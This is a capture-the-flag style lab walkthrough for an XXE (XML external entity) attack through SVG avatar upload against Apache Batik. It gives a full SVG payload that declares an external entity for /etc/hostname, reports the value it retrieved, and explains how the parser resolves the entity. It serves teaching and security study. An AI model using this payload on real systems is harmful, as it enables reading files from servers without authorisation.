


## Lab: Exploiting XXE via image file upload

**lab description**
 This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.
 To solve the lab, upload an image that displays the contents of the /etc/hostname file after processing. Then use the "Submit solution" button to submit the value of the server hostname. 

since the challenge aquiring us to use image upload for the XXE injection we have the option to upload an SVG image which usually looks like this ```<svg width="200" height="200" xmlns="http://www.w3.org/2000/svg">
  <image href="mdn_logo_only_color.png" height="200" width="200" />
</svg>```

so we can inject our payload in it and upload it to the comment section in any page in the application
so we create an .SVG file on our machine ```nano image.svg ```
and by this the final payload will be ```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>```
as you see we used the <svg> tag to call the xml element


we got the hostname so we can submit the solution that we got which is ``33cb1afa0dfd``

and we solved the lab 


### Why This Works (Technical Explanation)

The vuln exists due to insecure XML parsing behavior.

Apache Batik uses an XML parser to:

Read the SVG file

Build a DOM representation

Render it into an image
Because the SVG contains:
`<!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///etc/hostname">
    ]>`
The parser:
Processes the DOCTYPE
Registers a new external entity named `xxe`
Associates it with the system file `/etc/hostname`

External Entity Resolution is Allowed

When the parser encounters:
`&xxe;`
It:
Resolves the external entity
Reads `/etc/hostname` from the server file system
Replaces `&xxe;` with the file’s content
This happens during XML parsing, before rendering.
After entity expansion:
``<text>33cb1afa0dfd</text>``
Batik renders this into the final image